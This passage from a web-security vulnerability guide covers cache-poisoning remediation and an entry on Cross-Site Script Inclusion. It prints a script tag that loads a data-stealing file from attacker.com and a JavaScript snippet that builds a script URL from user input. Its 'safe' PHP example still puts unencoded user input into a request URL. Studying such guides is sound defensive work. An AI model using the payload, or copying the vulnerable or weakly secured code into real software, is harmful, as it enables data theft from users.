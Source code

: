 If the cache stores unvalidated user input or relies on user-controlled data, attackers can inject malicious content.

**Remediation Steps:**
- **Strict Cache Control Headers:** Use proper cache control headers to ensure only safe and intended content is cached.
- **Input Validation:** Validate all inputs and responses before caching.
- **Use Keyed-Hash Message Authentication Codes (HMAC):** Protect cache entries with HMACs to ensure the integrity of cached content.

**Safe Code Example (PHP with Validated Cache Control):**

```php
// Use strict cache control and validated input
$user_input = filter_var($_GET['query'], FILTER_SANITIZE_STRING);
$cache_key = 'cache_' . md5($user_input);
$cached_content = $cache->get($cache_key);

if ($cached_content) {
    echo $cached_content;
} else {
    $response = file_get_contents("http://example.com/api?query=" . $user_input);
    if (valid_response($response)) {
        $cache->set($cache_key, $response);
        echo $response;
    }
}
```

**Reference:**  
[PortSwigger: Web Cache Poisoning](https://portswigger.net/web-security/web-cache-poisoning)

---

## **36. Cross-Site Script Inclusion (XSSI)**  
**Category:** #Execution-Attack  
**Severity:** **Medium**

**Attack:**  
Cross-Site Script Inclusion (XSSI) occurs when a web application allows an attacker to include JavaScript files from a different origin. This can lead to data theft if sensitive information is exposed in the JavaScript.

**Attack Example (XSSI Payload):**

```html
<script src="http://attacker.com/steal.js"></script>
```

The script from `attacker.com` may steal sensitive data from the current domain, exploiting the lack of origin checks.

**Vulnerable Code Example (JavaScript):**

```javascript
// Vulnerable to XSSI
var script = document.createElement('script');
script.src = 'http://example.com/' + user_input + '.js';  // User-controlled script inclusion
document.head.appendChild(script);
```
